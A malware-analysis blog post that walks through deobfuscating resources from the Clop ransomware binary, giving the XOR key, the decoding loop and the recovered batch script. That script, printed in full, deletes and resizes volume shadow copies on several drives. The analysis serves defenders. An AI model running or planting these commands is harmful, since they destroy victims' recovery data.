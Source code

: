 +++
title = "Deobfuscating Clop ransomware resources"
description = "A deobfuscator tool for extracted resources from Clop ransomware"
tags = [
    "ransomware",
    "clop",
    "reverse-engineering"
]
date = "2019-03-31"
categories = [
    "Malware",
    "Reverse Engineering",
]
author = "Dan"
summary = true 
+++

[A colleague](https://github.com/digitalcroqueta) and I reverse-engineered the Clop ransomware binary (with SHA256 hash value `2f29950640d024779134334cad79e2013871afa08c7be94356694db12ee437e2`), and observed that it contained two obfuscated resources:

* SIXSIX
* SIXSIX1

One of them is just the README file that the malware drops all over the disk, so nothing too exciting, but the other is a batch script that deletes the volume shadow copies. Granted, you could just debug it and get it to drop these files, but as a personal challenge I decided to write a deobfuscator based on my analysis of the decompiled code (I looked at it in both Ghidra and IDA Pro, the latter of which was much more helpful in this case). After spending a bit of time labeling each variable/function, this is the relevant decompiled section of code:

<script src="https://gist.github.com/danzek/a5ff18c455101e892d8717654338cae0.js"></script>

Beginning with this decompiled code, I quickly whipped up [a deobfuscator in C++](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp), basically mimicking the decompiled code (with a couple minor shortcuts), which [I've made available on GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.cpp) Shortly thereafter, I decided to write [a Python 3 version](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py) that is much shorter (and cross-platform compatible), which is [now also on my GitHub.](https://github.com/danzek/ransomware-sucks/blob/master/clop/decoder/decodeResource.py)

The ransomware has a harcoded "magic" string that it uses to deobfuscate the resources:

```
CHAR clopDecodeResourceSIXSIX1_MagicString[] = "Clopfdwsjkjr23LKhuifdhwui73826ygGKUJFHGdwsieflkdsj324765tZPKQWLjwNVBFHewiuhryui32JKG";
```

From there it iterates over each byte in the file and XORs it by itself and the modulus (remainder) of the current byte offset and `0x42` (decimal value `66`) as an offset/subscript into the magic string:

```
*((BYTE *)hResourceMemory + i) ^= clopDecodeResourceSIXSIX1_MagicString[i % 66];
```

And here's our prize:

```
@echo off
vssadmin Delete Shadows /all /quiet
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=401MB
vssadmin resize shadowstorage /for=c: /on=c: /maxsize=unbounded
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=401MB
vssadmin resize shadowstorage /for=d: /on=d: /maxsize=unbounded
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=401MB
vssadmin resize shadowstorage /for=e: /on=e: /maxsize=unbounded
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=401MB
vssadmin resize shadowstorage /for=f: /on=f: /maxsize=unbounded
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=401MB
vssadmin resize shadowstorage /for=g: /on=g: /maxsize=unbounded
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=401MB
vssadmin resize shadowstorage /for=h: /on=h: /maxsize=unbounded
vssadmin Delete Shadows /all /quiet
```

That's really all there is to it. The rest of the code is mostly just memory management and writing the deobfuscated data to a file.

